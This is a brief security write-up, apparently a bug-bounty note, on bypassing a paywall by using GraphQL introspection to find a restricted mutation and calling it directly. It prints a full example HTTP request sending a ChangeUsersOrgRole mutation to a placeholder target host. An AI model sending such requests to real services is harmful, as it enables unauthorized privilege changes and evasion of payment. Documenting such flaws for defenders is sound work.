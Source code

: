 # VULNERABILITIES, REPORTS AND EXPLOITS

### Bypass Paywall Using GraphQL

Some targets differentiate between free and premium features through GUI-based paywalls that block access to certain functionalities unless you pay. However, with **GraphQL introspection enabled**, I uncovered the mutation that this feature utilizes, allowing me to bypass the paywall by directly interacting with the API.

#### Steps:

1. **GraphQL**:
   * Identified the mutation being used for the restricted feature.
2. **Direct API Request**:
   * Used the mutation directly via an API request, bypassing the paywall GUI restriction.

#### Example Request:

```http
POST /t/graphql/org/{your-orgID}?q=ChangeUsersOrgRole HTTP/2
Host: app.target.com
Cookie: <your-cookie>
User-Agent: <your-user-agent>
Referer: https://app.target.com/analytics/sallam/settings/users/joined
Content-Type: application/json
X-Org: 315336
Content-Length: 557
Origin: https://app.target.com

{
  "query": "mutation ChangeUsersOrgRole($loginIds: [ID!]!, $orgRole: Int!) {\n  changeUsersOrgRole(loginIds: $loginIds, orgRole: $orgRole) {\n    ...userFields\n    __typename\n  }\n}\n\nfragment userFields on User {\n  id\n  alias\n  avatarVersion\n  blurb\n  createdAt\n  defaultAllProjectRole\n  defaultAppId\n  email\n  firstName\n  fullName\n  hasAvatar\n  hasOutstandingInvite\n  isConnectedToSlack\n  lastName\n  loginId\n  name\n  orgRole\n  orgTeam\n  title\n  pronouns\n  __typename\n}\n",
  "variables": {
    "loginIds": ["sallam@cyberar.net"],
    "orgRole": 1
  }
}
```

#### Result:

By sending this request, the paywall was bypassed, granting access to the restricted feature. This highlights how misconfigured GraphQL endpoints and exposed mutations can lead to security vulnerabilities.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

